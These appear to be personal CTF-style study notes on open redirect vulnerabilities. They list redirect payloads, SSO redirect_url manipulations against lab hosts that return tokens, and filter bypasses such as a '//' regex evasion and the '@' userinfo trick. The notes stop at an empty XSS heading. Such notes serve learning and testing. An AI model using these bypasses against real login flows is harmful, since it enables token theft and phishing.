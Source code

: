 ____

https://github.com/payloadbox/open-redirect-payload-list

```html
<a href="/?redirect=http://www.google.com">Google</a>
```

# Bypassing protections

![[Pasted image 20241130123503.png]]

```
?redirect=http://www.google.com.test
```

# SSO Example

![[Pasted image 20241130124246.png]]

![[Pasted image 20241130124308.png]]

```
https://auth.creon.ctfio.com/auth?client_id=1&redirect_url=https://creon.ctfio.com/redirect?uri=https://www.google.com&response_type=token
```

# Protections

Regex looking for //
```
https://auth.icarus.ctfio.com/auth?client_id=1&redirect_url=https://icarus.ctfio.com/x//www.google.com&response_type=token
```

Use the domain before the `@` as a fake username to redirect to the domain after the `@`

```
https://auth.daedalus.ctfio.com/auth?client_id=1&redirect_url=https://daedalus.ctfio.com@www.google.com/&response_type=token
```

# XSS



